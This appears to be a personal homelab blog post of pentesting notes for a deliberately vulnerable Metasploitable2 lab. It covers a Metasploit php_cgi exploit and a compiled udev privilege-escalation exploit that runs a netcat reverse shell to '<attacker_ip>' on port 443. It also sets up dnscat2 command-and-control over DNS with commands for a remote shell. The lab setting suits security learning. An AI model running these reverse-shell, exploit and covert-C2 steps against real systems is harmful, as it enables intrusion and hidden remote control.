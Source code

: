 ```yaml
---
title: A quick referesher of the homelab
categories: [homelab]
tags: [homelab, domain, dns, dnscat2]     # TAG names should always be lowercase
---
```


[main](/posts/lab_main)

## Gain `root` access on metasploitable2
### Gain `www-data` user access:
```bash
# www-data service user access:
  # searchsploit
  searchsploit apache 2.2.8 # out: Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution 
```
msfconsole - metasploit:
	RHOSTS & RPORT- Address & PORT to access the webserver. 
```bash
use php_cgi
set RHOSTS 192.168.189.254
set RPORT 8080
set LPORT 80
run
```

### Root Access:
netcat listener on attacking machine: `sudo netcat -nlvp 443`

```bash
# meterpreter
cd /tmp
upload /usr/share/exploitdb/exploits/linux/local/8572.c ./exp.c
shell

# shell on meterpreter # exp needs "run"
echo '#!/bin/sh' > run
echo '/bin/netcat -e /bin/sh <attacker_ip> 443' >> run
gcc exp.c -o exp
chmod +x exp
cat /proc/net/netlink # search for a positive pid (udev's pid minus 1)
./exp 2708 # say 2708 the pid
```

netcat listener on attacking machine: `whoami`

A better shell (on the attacking machine):
```bash
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
<ctr+z>
stty raw -echo; fg
```
> You should have the root access
{: .prompt-info}

## DNS based command and control
1. Setup an Authoritative DNS server
2. Install dnscat2 on the server and client
3. Get command and control over DNS

Network traffic:
![dns](/assets/img/dnscat2_traffic_blur.png)

## Setup an authoritative DNS server:
If you are using AWS: [STOK’s video](https://youtu.be/p8wbebEgtDk)
Else, (Still, watch that. It's a good learning src.) I made one: 
1. Spin up a droplet. [droplet_setup]
2. [Get a domain name](/posts/c2_over_dns/#get-a-domain-name) and point the nameservers to digitalocean nameservers
3. Setup the domain on digitalocean
4. Set low ttl for each DNS record type (It may take sometime for DNS propagation.)

## C2 using dnscat2
Download dnscat2: `git clone https://github.com/iagox86/dnscat2.git`

Server:
```bash
# mkdir tools; cd tools; git clone dnscat2; cd dnscat2/server
sudo gem install bundler
sudo chown -R <user_name> /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat port=53531 --secret=<secret> example.com # or
sudo ./dnscat --dns port=53531,server=<ip>--secret=<secret>

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
```

## Active Directory setup
[Active Directory on Azure](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f)

TCM security's PEH course is a good source to learn about Active Directory setup and pentesting.
